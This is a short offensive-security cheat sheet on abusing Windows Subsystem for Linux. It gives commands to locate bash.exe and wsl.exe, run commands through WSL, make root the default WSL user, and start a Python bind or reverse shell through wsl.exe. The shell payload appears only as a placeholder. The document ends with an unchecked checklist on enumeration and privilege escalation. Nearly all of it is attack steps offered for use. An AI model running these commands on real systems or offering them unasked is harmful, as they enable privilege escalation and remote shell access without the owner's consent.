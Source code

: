 WSL enumeration
```bash
where /R c:\windows bash.exe 
where /R c:\windows wsl.exe
```
WSL is on the system and execute command in WSL
```bash
wsl.exe whoami
```
WSL set root
```bash
./ubuntu1604.exe config --default-user root
```
Open new service with root privileges
```
wsl.exe python -c 'BIND_OR_REVERSE_SHELL_CODE'
```
- [ ] Enumeration of the WSL terminal.
- [ ] Privilege Escalation from WSL.